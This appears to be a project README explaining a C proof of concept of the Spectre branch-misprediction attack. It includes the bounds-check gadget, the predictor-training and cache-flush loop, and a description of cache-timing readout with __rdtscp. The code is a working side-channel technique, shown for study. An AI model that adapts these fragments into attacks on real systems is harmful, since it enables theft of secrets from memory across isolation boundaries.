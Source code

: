 # Spectre Attack
Implementation of the [spectre attack](https://en.wikipedia.org/wiki/Spectre_(security_vulnerability)) using C

# Solution
The solution uses conditional branch misprediction to read secret information stored in the program’s address space.

Attack function:
```
void f(size_t i) {
    uint8_t someValue = 0;
    if (i < indexArraySize) {
        someValue &= attackArray[indexArray[i] * CACHE_LINE];
    }
}
```

The process of attacks:
1. First we teach the branch predictor with a valid index (it does not go beyond the boundaries of the indexArray array)
2. Then we try to get data from `needAddress` (after clearing the cache)
```
int x = 0;
size_t validIndex = try % indexArraySize;
for (volatile int j = 0; j < NUMBER_ATTACKS; j++) {
  makeDelay();

  x += j;
  x = x * x;
  x <<= 2;

  size_t index = ((j % ATTACKS_INTERVAL) - 1) & ~0xFFFF;
  index = validIndex ^ ((index | (index >> 16)) & (needAddress ^ validIndex));

  _mm_clflush(&indexArraySize);
  f(index);
}
```

After the attacks, we start searching in the cache for the element we need. Using the `__rdtscp` function, we count the time. If the time is less than `CACHE_HIT`, we count the hit of the symbol in the cache.
